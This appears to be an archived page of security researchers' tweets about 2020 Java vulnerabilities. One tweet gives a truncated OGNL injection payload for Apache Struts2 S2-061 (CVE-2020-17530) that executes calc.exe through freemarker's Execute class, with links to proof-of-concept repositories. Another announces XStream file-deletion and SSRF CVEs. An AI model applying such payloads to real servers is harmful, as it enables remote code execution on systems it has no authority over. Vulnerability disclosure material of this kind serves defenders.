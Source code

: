 
# wugeej
**https://twitter.com/wugeej/status/1338385987798409217 _at 2020-12-14 07:31:00_**
<blockquote>
S2-061 #Apache #Struts2 RCE

[PoC]
url+"/?id="+payload

payload="%{(
..........
..........
..........(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))}

https://t.co/1mVRcU9cI4
https://t.co/NTNmZuKqDI
</blockquote>

* https://github.com/fengziHK/CVE-2020-17530-strust2-061/blob/main/struts2-061-poc.py
* https://github.com/wuzuowei/CVE-2020-17530

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1338179859265146881 _at 2020-12-13 17:51:55_**
<blockquote>
#CVE-2020-26259 
XStream is vulnerable to an Arbitrary File Deletion on the local host when unmarshalling as long as the executing process has sufficient rights.

1.4.14

#CVE-2020-26258 XStream SSRF

Poc:
https://t.co/6GHbng49Dy
https://t.co/I5KB42tyz5 https://t.co/X5iGnoYHqd
</blockquote>

* https://x-stream.github.io/CVE-2020-26259.html
* https://x-stream.github.io/CVE-2020-26258.html

<table><tr>